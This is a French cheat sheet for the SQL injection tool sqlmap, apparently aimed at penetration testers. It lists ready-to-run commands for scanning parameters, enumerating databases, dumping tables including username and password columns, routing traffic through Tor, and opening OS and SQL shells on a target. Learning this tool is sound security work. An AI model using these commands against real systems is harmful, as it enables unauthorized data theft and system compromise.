 Commandes automatiques
Scanner une url de manière automatique

sqlmap -u "http://siteatester.fr"

Scanner une url avec un paramètre GET

sqlmap -u "http://siteatester.fr?id=1"

Scanner une url avec des paramètres POST

sqlmap -u "http://siteatester.fr" --data=PARAMETRE1=VALEUR1&PARAMETRE2=VALEUR2

Préciser les paramètres
Préciser le paramètre sur lequel réaliser l’injection

sqlmap -u "http://siteatester.fr?param1=valueur1&param2=valueur2” -p param1

Préciser le type de base de données (mysql)

sqlmap -u "http://siteatester.fr" --dbms=mysql

Listage
Lister les bases de données

sqlmap -u "http://siteatester.fr?id=1" --dbs

Lister les tables d’une base spécifique

sqlmap -u "http://siteatester.fr" -D "nom_de_la_database" --tables

Lister les colonnes d’une table spécifique

sqlmap -u "http://siteatester.fr" -D "nom_de_la_database" -T "nom_de_la_table" --columns

Dump
Dump tout ce qu’SQLMap trouve

sqlmap -u "http://siteatester.fr" --dump

Dump une base de données spécifique

sqlmap -u "http://siteatester.fr" -D "nom_de_la_database" --dump

Dump une table spécifique

sqlmap -u "http://siteatester.fr" -D "nom_de_la_database" -T "nom_de_la_table" --dump

Dump seulement des colonnes spécifiques d’une table

sqlmap -u "http://testsite.com/login.php" -D site_db -T users -C username,password --dump

Cookies
Utiliser des cookies dans la requête

sqlmap -u "http://siteatester.fr" --cookie="COOKIE1=VALEUR1;COOKIE2=VALEUR2"

Proxy
Passer le trafic de SQLMap via un proxy

sqlmap -u "http://siteatester.fr" --proxy=http://proxy:port

Passer le trafic de SQLMap via Tor

sqlmap -u "http://siteatester.fr" --tor --tor-type=SOCKS5 --check-tor

Reverse Shell
Obtenir un reverse shell OS

sqlmap -u "http://siteatester.fr" --os-shell

Obtenir un shell SQL

sqlmap -u "http://siteatester.fr" --sql-shell
